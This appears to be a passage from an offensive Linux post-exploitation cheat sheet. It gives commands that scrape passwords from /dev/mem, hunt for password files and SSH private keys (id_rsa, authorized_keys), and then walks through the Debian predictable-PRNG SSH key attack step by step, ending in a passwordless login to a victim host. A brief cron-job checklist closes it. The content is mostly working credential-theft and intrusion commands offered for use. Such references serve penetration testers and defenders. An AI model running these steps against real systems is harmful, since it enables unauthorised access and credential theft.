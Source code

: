 Last edited files

    Files that were edited in the last 10 minutes
    find / -mmin -10 2>/dev/null | grep -Ev "^/proc"

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
In memory passwords

    strings /dev/mem -n10 | grep -i PASS
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Find sensitive files

    $ locate password | more           
    /boot/grub/i386-pc/password.mod
    /etc/pam.d/common-password
    /etc/pam.d/gdm-password
    /etc/pam.d/gdm-password.original
    /lib/live/config/0031-root-password
    
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
SSH Key
Sensitive files

    find / -name authorized_keys 2> /dev/null
    find / -name id_rsa 2> /dev/null
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
SSH Key Predictable PRNG (Authorized_Keys) Process
This module describes how to attempt to use an obtained authorized_keys file on a host system.

Needed : SSH-DSS String from authorized_keys file

Steps

Get the authorized_keys file. An example of this file would look like so:

ssh-dss AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf ... (snipped) ... 
Since this is an ssh-dss key, we need to add that to our local copy of /etc/ssh/ssh_config and /etc/ssh/sshd_config:

echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/ssh_config
echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/sshd_config
/etc/init.d/ssh restart
Get g0tmi1k's debian-ssh repository and unpack the keys:

git clone https://github.com/g0tmi1k/debian-ssh
cd debian-ssh
tar vjxf common_keys/debian_ssh_dsa_1024_x86.tar.bz2
Grab the first 20 or 30 bytes from the key file shown above starting with the "AAAA..." portion and grep the unpacked keys with it as:

grep -lr 'AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf'
dsa/1024/68b329da9893e34099c7d8ad5cb9c940-17934.pub
IF SUCCESSFUL, this will return a file (68b329da9893e34099c7d8ad5cb9c940-17934.pub) public file. To use the private key file to connect, drop the '.pub' extension and do:

    ssh -vvv victim@target -i 68b329da9893e34099c7d8ad5cb9c940-17934
    And you should connect without requiring a password. If stuck, the -vvv verbosity should provide enough details as to why.
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Scheduled tasks
Cron jobs
Check if you have access with write permission on these files.
Check inside the file, to find other paths with write permissions.
